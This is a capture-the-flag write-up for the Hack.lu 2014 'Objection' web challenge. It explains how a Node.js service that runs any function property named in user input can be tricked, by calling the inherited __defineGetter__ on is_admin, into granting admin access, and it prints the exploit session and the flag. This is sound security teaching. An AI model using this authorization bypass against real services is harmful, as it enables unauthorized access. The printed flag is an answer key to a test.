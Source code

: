 # Hack.lu CTF 2014: Objection

**Category:** Web
**Points:** 150
**Author:** TheJH
**Description:**

> This guard talks a weird dialect. And why does he talk in such a complicated way?
>
> Download: [objection_4966674d17ff296939c0e3dfccfe87ed.co](objection_4966674d17ff296939c0e3dfccfe87ed.co)
>
> `nc wildwildweb.fluxfingers.net 1408`

## Write-up

[The provided `objection_4966674d17ff296939c0e3dfccfe87ed.co` file](objection_4966674d17ff296939c0e3dfccfe87ed.co) resembles a Node.js app, except it’s written in “a weird dialect” instead of in JavaScript. This is [LiveScript](http://livescript.net/). Using the project’s website we [compile the LiveScript code to JavaScript](objection.js), since we’re more familiar with that language.

[The source code](objection.js) reveals that the program accepts commands as input:

* `login $password` attempts to login using `$password` as the password
* `get_token` reveals the token if you’re logged in as admin

Since we don’t know the admin password, we’ll have to find another way to set `client_context.is_admin` to a truthy value, to avoid hitting this `if` branch:

```js
if (!this.is_admin) {
  return cb("You are not authorized to perform this action.");
}
```

Let’s take a look at the code that parses our input:

```js
var ref$, funcname, args;
it = it.toString('utf8');
console.log("got line: " + it);
ref$ = it.split(' ');
funcname = ref$[0];
args = slice$.call(ref$, 1);
if (typeof client_context[funcname] !== 'function') {
  return con.write("error: unknown function " + funcname + "\n");
}
return client_context[funcname](args, function(it){
  return con.write(it + "\n");
});
```

The program accepts any command `funcname` as long as `client_context[funcname]` is a JavaScript function object. This means we’re not limited to the custom `login` and `get_token` methods – we can also use function properties that are inherited from the global `Object.prototype`. Using [some old code](https://github.com/mathiasbynens/tpyo/blob/b76ca2f4d7726c51c2f8c779d73773de91f86a56/tpyo.js#L7-L22), we quickly created the following list of such properties that are available in Node.js (which is based on the V8 engine):

* `constructor`
* `hasOwnProperty`
* `isPrototypeOf`
* `propertyIsEnumerable`
* `toLocaleString`
* `toString`
* `valueOf`
* `__defineGetter__`
* `__defineSetter__`
* `__lookupGetter__`
* `__lookupSetter__`

If we enter [`__defineGetter__`](https://javascript.spec.whatwg.org/#object.prototype.__definegetter__) as the command name and `is_admin` as its argument, the following code is executed:

```js
client_context.__defineGetter__(['is_admin'], function(it) {
  return con.write(it + "\n");
});
```

After that, every time `client_context.is_admin` is accessed, it results in the return value of `con.write(it + "\n")` instead of its initial value `false`. This means we can call `get_token` afterwards. Bingo!

```bash
$ nc wildwildweb.fluxfingers.net 1408
hello!
__defineGetter__ is_admin
get_token
undefined
The current token is flag{real_cowboys_dont_use_object_create_null}
```

The flag is `flag{real_cowboys_dont_use_object_create_null}`.

## Other write-ups and resources

* [Exploit in Python by @TheJH](thejh_exploit.py)
